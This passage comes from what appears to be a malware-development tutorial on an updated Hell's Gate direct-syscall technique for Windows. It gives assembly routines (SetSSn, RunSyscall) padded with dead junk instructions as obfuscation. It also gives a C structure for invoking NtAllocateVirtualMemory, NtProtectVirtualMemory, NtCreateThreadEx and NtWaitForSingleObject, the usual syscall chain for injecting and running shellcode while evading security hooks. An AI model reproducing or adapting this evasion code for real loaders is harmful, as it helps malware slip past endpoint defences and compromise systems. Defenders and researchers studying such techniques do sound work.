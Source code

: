 #### Obfuscated Assembly Functions

`SetSSN` & `RunSyscall` with added assembly instructions.

```c
.data
	wSystemCall DWORD 0000h

.code 

	SetSSn PROC
			xor eax, eax			; eax = 0
			mov wSystemCall, eax		; wSystemCall = 0					
			mov eax, ecx			; eax = ssn
			mov r8d, eax			; r8d = eax = ssn
			mov wSystemCall, r8d		; wSystemCall = r8d = eax = ssn		
			ret
	SetSSn ENDP
	
	RunSyscall PROC
			xor r10, r10			; r10 = 0
			mov rax, rcx			; rax = rcx
			mov r10, rax			; r10 = rax = rcx			
			mov eax, wSystemCall		; eax = ssn					
			jmp Run                  ; execute 'Run'
			xor eax, eax     ; wont run
			xor rcx, rcx     ; wont run
			shl r10, 2       ; wont run
		Run:
			syscall					
			ret						
	RunSyscall ENDP
	
end	
```

### Updating The Main Function

#### Creating The NTAPI_FUNC Structure

The updated Hell's Gate implementation is now completed. The last part is to test the implementation which requires the main function. To do so, a new structure is created that replaces the [VX_TABLE](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L14). The new structure, `NTAPI_FUNC`, will contain the syscalls' information. Storing this information in a structure will enable calling the syscalls multiple times when initialized as a global variable.

The `NTAPI_FUNC` structure is shown below.

```c
typedef struct _NTAPI_FUNC
{
	NT_SYSCALL	NtAllocateVirtualMemory;
	NT_SYSCALL	NtProtectVirtualMemory;
	NT_SYSCALL	NtCreateThreadEx;
	NT_SYSCALL	NtWaitForSingleObject;

}NTAPI_FUNC, *PNTAPI_FUNC;

// global variable
NTAPI_FUNC g_Nt = { 0 };
```
